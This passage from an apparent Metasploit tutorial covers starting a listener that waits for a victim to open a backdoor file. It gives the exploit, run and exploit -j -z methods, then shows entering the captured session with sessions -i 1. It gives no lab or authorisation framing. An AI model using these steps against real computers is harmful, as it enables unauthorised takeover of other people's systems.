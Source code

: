 Check the current settings:

```sh
show options
```

### Wait for the Backdoor Program to be Opened

Once everything is set, you can start listening for someone to open your backdoor program. When someone opens the file, your console will respond, and you will have successfully compromised the computer.

There are a few methods to start listening:

#### Method 1: `exploit`

This method does not allow you to work in the same window while waiting. You can stop the process by pressing `Ctrl+C`.

Start listening:

```sh
exploit
```

#### Method 2: `run`

This method allows you to continue working in the same window while waiting. You can stop the process by pressing `Ctrl+C`.

Start listening:

```sh
run
```

#### Method 3: `exploit -j -z`

This method allows you to continue working in the same window, but you need to manually enter the session.

Start listening:

```sh
exploit -j -z
```

When the target opens the file, your console will respond. You need to enter the session to control the system.

First, check the current sessions:

```sh
sessions
```

You will see an ID, for example, `1`. Use the `-i` option to enter the session:

```sh
sessions -i 1
```
